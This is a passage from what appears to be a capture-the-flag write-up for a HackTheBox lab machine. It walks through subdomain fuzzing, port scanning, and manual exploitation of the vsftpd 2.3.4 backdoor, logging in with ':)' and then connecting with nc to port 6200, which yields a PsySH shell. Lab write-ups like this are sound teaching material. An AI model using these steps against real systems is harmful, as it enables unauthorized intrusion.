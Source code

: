 Nothing. Let’s search for subdomains:

```bash
ffuf -u http://10.10.10.131 -H "Host: FUZZ.lacasadepapel.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 1754
```

Nothing.

Let’s do more scan:

```bash
rustscan -a 10.10.10.131 --ulimit 5000
```

No additional ports.

Searching up the ftp version vsftpd 2.3.4, we find that there is a backdoor will open on port 6200 if :) is supplied as the username.

Let’s use metasploit:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.131
```

Does not work.

Let’s do this manually, first connect to ftp:

```bash
ftp 10.10.10.131
#username :)
```

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%202.png)

Now another terminal, we use nc to connect to port 6200:

```bash
nc 10.10.10.131 6200
```

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%203.png)

We get a Psy Shell

PsySH (often typed as "psyshell") is an interactive REPL (Read-Eval-Print Loop) shell for PHP, allowing you to execute code, inspect variables, and debug interactively.

![image.png]({{ site.baseurl }}/assets/lacasadepapel//image%204.png)

We attempt to use edit to try and write code:

```bash
edit

PHP Warning:  proc_open() has been disabled for security reasons in phar:///usr/bin/psysh/src/Command/EditCommand.php on line 162
PHP Warning:  proc_close() expects parameter 1 to be resource, null given in phar:///usr/bin/psysh/src/Command/EditCommand.php on line 163
```
